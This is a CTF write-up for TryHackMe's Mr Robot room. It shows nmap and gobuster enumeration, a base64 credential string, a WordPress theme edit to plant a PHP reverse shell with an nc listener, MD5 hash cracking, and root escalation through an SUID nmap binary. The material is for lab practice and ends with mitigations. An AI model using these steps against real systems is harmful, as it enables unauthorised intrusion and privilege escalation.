




# TryHackMe - Mr Robot (CTF Write-up)

> Author: Adam Pawelczyk
>
> Date: 2025-07-07
>
> Category: Web
>
> Difficulty: Medium
>
> [TryHackMe Link](https://tryhackme.com/room/mrrobot)

---

## Challenge Description

This Mr. Robot-themed challenge tasks us with compromising a virtual machine modeled after the *fsociety* universe. The objective is to find three hidden keys located on the system.

We're provided with the virtual machine to deploy and investigate, hosted at: `10.10.202.58`


## Goal

Locate all three hidden keys.


## TL;DR

- Discovered ports 22, 80, 443 using `nmap`.
- Found first flag in `robots.txt`
- Found credentials in `license.txt`.
- Logged into WordPress admin panel.
- Gained a reverse shell via theme edit.
- Found second flag inside the `robot` home directory.
- Switched to robot user after cracking MD5 password and retrieved the second flag.
- Escalated privileges using `nmap` SUID binary.
- Retrieved the third flag.


## Reconnaissance

### Port Scan

The enumeration phase begins with a full TCP port scan using `nmap`:

```bash
sudo nmap 10.10.202.58 -sV -p- -oA initial_scan
```

Key Results:

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd
```

## Web Enumeration

### Initial Site Analysis

Navigating to http://10.10.202.58 reveals a minimal interface - just a prompt allowing predefined commands. After experimenting, nothing useful was discovered from this interface.



The next step is to enumerate potential hidden directories and files.

### Directory and File Brute-Force

`gobuster` is used to uncover file and directories:

```bash
gobuster dir -u http://10.10.202.58 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php
```

This reveals several interesting finds:

- `/login`: Leads to a WordPress login portal.
- `/license.txt`: Contains a hidden base64 encoded string.
- `/robots.txt`: Lists two files:
    - `fsocity.dic` - dictionary file containing presumably usernames and passwords.
    - `key-1-of-3.txt` - file containing the first flag.

The flag file is accessible via http://10.10.202.58/key-1-of-3.txt

### Credential Discovery

Inspecting `license.txt`, the following base64-encoded string is found: `ZWxsaW90OkVSMjgtMDY1Mgo=`. Decoding it via [CyberChef](https://gchq.github.io/CyberChef) reveals a credential pair containing username and password.




## Exploitation

### Gaining Access to WordPress

Logging into WordPress is successful using the discovered credentials . Though no flags are directly visible in the dashboard, the ability to edit theme files provides an excellent attack vector.

### Reverse Shell Setup

The active theme, such as twentyfifteen, is selected and the `404.php` file is modified to include a PHP reverse shell payload generated from [revshells](https://www.revshells.com/).



`404.php` is modified, but any PHP file in the selected theme would have worked as long as it's editable via the WordPress dashboard and directly accessible in the browser.

The next step is to start a listener on the attacking machine:

```bash
nc -lvnp 4343
```

To trigger the reverse shell, navigate to:

`http://10.10.202.58/wp-content/themes/twentyfifteen/404.php`


## Post-Exploitation

### Enumerate Users

After obtaining a reverse shell, the system is checked for user accounts by listing the contents of the `/home` directory:

```bash
ls -l /home
```

A `robot` user is discovered.

### Enumerate Robot's Home Directory

```bash
ls -la /home/robot
```

Results:

```bash
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt                                                                                                                                      
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5 
```

`key-2-of-3.txt` is not readable due to file permissions, but `password.raw-md5` is world-readable.

```bash
cat /home/robot/password.raw-md5
```

An MD5 hash of `robot's` password is obtained, which can crack using [CrackStation](https://crackstation.net/)



After cracking the hash, switching to `robot` allows reading the second flag:

```bash
su robot
cat /home/robot/key-2-of-3.txt
```


## Privilege Escalation

### Check Sudo Rights

The next step is to check if the `robot` user has any elevated permissions using `sudo`:

```bash
sudo -l
```

The output shows that the `robot` user lacks `sudo` privileges, so an alternative method for privilege escalation is required.

### Enumerating SUID Binaries

SUID (Set User ID) is a special file permission that allows an executable to run with the privileges of the file owner, typically `root`. By identifying a SUID binary that supports command execution, it may be possible to exploit it for `root` access.

SUID binaries are enumerated with the following command:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

One of the results shows:

```bash
-rwsr-xr-x 1 root root   17272 Jun 2  18:23 /usr/local/bin/nmap
```

`nmap` has the SUID permission set and it's owned by `root`.

### Exploit Nmap SUID for Shell

The [GTFOBins](https://gtfobins.github.io/) website is checked for a method to exploit `nmap`.

The page shows that `nmap` can be launched in interactive mode:

```bash
namp --interactive
```
Executing the following results in a root shell:

```bash
nmap> !sh
```

## Post-Exploitation

Upon checking the `/root` directory with the following command:

```bash
ls -la /root
```

The following file is found:

```bash
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
```

Reading the file reveals the third and final flag:

```bash
cat /root/key-3-of-3.txt
```


## Conclusion

This was a cleverly crafted Mr. Robot-themed CTF, with a strong emphasis on realistic enumeration and privilege escalation. Here's what I did:

- Enumeration & Reconnaissance: Discovered useful paths (`robots.txt`, `license.txt`) and base64-encoded credentials.
- Web Application Exploitation: Logged into WordPress as admin, edited a theme to execute a PHP reverse shell.
- Lateral Movement: Switched users after cracking MD5 password.
- Privilege Escalation: Used an SUID-enabled nmap binary to escalate to `root`.
- Capture Flags: Successfully retrieved all 3 hidden keys.

### Skills Practiced

- Directory and file enumeration using `gobuster`.
- Base64 decoding and credential extraction.
- Reverse shell creation and listener setup.
- Privilege escalation via SUID misconfiguration.

### Mitigations

- Never leave sensitive credentials or base64 data in public files.
- Avoid SUID on binaries like `nmap` that can be abused for shell access.

### Final Thoughts

This room was an excellent blend of web exploitation and privilege escalation. It’s beginner-friendly yet teaches critical real-world techniques - perfect for CTF practice and foundational pentesting skills.

**Note:** Passwords, keys, and sensitive strings are redacted to comply with TryHackMe's write-up policy.